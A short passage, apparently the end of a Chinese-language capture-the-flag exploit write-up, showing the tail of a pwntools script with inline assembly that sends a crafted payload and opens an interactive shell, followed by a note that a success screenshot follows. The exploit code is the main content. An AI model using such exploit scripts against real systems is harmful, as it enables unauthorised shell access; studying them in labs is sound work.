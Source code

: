 ```
    add rax, 0x249e6
    mov qword ptr [rcx], rax
    hlt
    """
)
#dbg()
sd("\x68\x00\x00\x00")
sd(payload)
rv(16)

sh.interactive()
```

成功截图如下：

![](picture/3.png)